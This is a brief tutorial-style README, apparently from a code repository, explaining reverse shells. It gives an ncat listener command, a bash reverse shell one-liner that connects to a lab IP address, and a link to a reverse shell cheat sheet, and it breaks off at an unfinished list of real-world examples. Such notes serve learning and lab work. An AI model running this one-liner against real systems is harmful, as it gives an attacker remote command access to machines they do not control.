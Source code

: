 # Reverse Shell

<img src="https://miro.medium.com/v2/resize:fit:1024/1*CyVqkmA7wLYaippCGRXW5w.jpeg" alt="why reverse shell" width="600"/>


## first you need a listener
listener example
```bash
ncat -l -p 1337
```
This listens to the TCP port 1337 for ip like 10.10.17.1
## Bash is simplest way to connect
bash reverse shell example
```bash
/bin/bash -i >& /dev/tcp/10.10.17.1/1337 0>&1
```
## There are even more that can be implemented
- PHP reverse shell
- Java reverse shell
- perl reverse shell
- python reverse shell
- etc

## There are countless resources
### Cheatsheet for reverse shell
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Real world examples
1. BrokenSesame vulberability in alibaba PostGreSQl databases
    - 
